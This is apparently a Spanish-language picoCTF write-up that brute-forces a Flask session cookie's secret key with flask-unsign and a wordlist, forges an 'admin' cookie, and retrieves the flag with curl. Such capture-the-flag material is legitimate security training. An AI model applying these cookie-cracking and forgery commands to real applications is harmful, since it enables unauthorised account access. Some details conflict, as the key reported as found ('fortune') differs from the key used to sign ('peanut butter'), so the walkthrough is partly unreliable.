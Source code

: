 ## Descripción
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/e99686c2e3e6cdd9e355f1d10c9d80d6/server.py) [http://mercury.picoctf.net:53700/](http://mercury.picoctf.net:53700/)
## Solución
primero con wget descargamos el servidor luego nos dirigimos a la pagina
como dice el reto ponemos el nombre de una cookie en la caja de texto de la pagina.
![[Pasted image 20250930154329.png]]
con la extencion de cookie editor verificamos existe una cookie llamada session.
```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNxatg.YNMLIQRFQpMZ6sGWFtEb_DEmYt8
```
con echo la desencriptamos en base 64 -d
```
{"very_auth":"snickerdoodle"}base64: entrada inválida

```
crakeamos la cookie usando una lista de palabras pero para ello tomamos las palabras del archivo servidor.py y las guardamos en un archivo llamado cookies.txt asi quedaria
```
└─$ cat cookies.txt 
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

```
despues usamos unos comandos para iniciar el entorno virtual de python y instalar la librería flask-unsign
```python
python -m venv ~/.venv
source ~/.venv/bin/activate
pip3 install flask-unsign
```

crakeamos usando una lista de palabras con el archivo cookies.txt con el comando flask y la cookie session.
```
┌──(.venv)─(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJsZWJrdWNoZW4ifQ.aNqzBQ.LuGrY1EjTtEFnx54gdfxPR996_s" --wordlist cookies.txt                    
[*] Session decodes to: {'very_auth': 'lebkuchen'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```
despues creamos nuestra cookie con la firma fortune
```
┌──(.venv)─(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'                                                                          
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNxbFw.kGjpTZQbjf8ztDajbTvtjL0uld0

```
revisamos la pagina si la cookie creada esta bien ademas usamos un grep para encontrar la bandera.
```
┌──(.venv)─(diego㉿Maquina-deGuerra)-[~/Documentos]
└─$ curl -s http://mercury.picoctf.net:53700/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNxbFw.kGjpTZQbjf8ztDajbTvtjL0uld0" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_3646b931}</code></p>

```
y listo obtuvimos la bandera
## Referencias
flask-insugn [Paradoxis/Flask-Unsign: Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.](https://github.com/Paradoxis/Flask-Unsign)

cookei editor (extebsion de navegadores)